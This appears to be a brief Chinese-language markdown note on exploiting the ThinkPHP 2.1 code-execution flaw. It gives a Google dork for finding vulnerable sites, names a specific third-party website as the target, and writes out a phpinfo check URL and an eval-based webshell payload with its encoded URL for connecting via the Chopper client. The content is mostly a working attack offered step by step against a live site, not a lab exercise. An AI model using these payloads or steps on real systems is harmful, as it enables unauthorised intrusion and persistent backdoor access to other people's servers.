


Thinkpphp2.1漏洞利用:
============================


google搜索:
```
intext:ThinkPHP 2.1 { Fast & Simple OOP PHP Framework }
```

找到网站:
```
https://www.gallantho.com/index.php
```

查看漏洞是否修复:
```
https://www.gallantho.com/index.php/module/aciton/param1/${@phpinfo()}
```

构建webshell地址
```
index.php/module/action/param1/{${eval($_POST[tt])}}
```

菜刀连接:
```
https://www.gallantho.com/index.php/module/aciton/param1/%7B$%7Beval($_POST[tt])%7D%7D 
```



参考链接:

- [thinkphp 2.1最新漏洞--红黑联盟](https://www.2cto.com/article/201207/144227.html)
- [康师傅某站ThinkPHP 2.1 PHP任意代码执行--红黑联盟](https://www.2cto.com/article/201210/161793.html)
- [05-在线挑战详细攻略-2015中国网络安全大赛：框架漏洞--i春秋 ](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=2192&highlight=2015%E4%B8%AD%E5%9B%BD%E7%BD%91%E7%BB%9C)
- [2015中国网络安全大赛：框架漏洞真题](http://blog.csdn.net/calmegm/article/details/49744519)